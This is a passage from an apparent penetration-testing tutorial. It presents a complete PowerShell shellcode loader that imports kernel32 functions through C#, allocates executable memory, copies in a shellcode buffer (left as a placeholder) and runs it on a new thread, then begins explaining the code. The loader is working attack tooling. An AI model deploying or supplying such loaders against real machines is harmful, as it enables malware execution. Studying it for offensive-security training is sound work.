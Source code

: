 We can execute this **shellcode** by loading it into memory and then creating a thread for its execution. In this case, we will use **PowerShell** to call a few Windows **APIs** via **C#** code. Below is a simple PowerShell script that will execute our shellcode:
```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
That's a lot of code, but let's break down what it does.

If you're new, memorising these functions is unnecessary. Most penetration testers use pre-made or automated tools to run **shellcode**, so you don't have to know every technical detail to complete the job. 
### Code Explanation
The script starts by defining a few **C#** classes. These classes use the `DllImport` attribute to load specific functions from the `kernel32` **DLL**, which is part of the Windows **API**.  

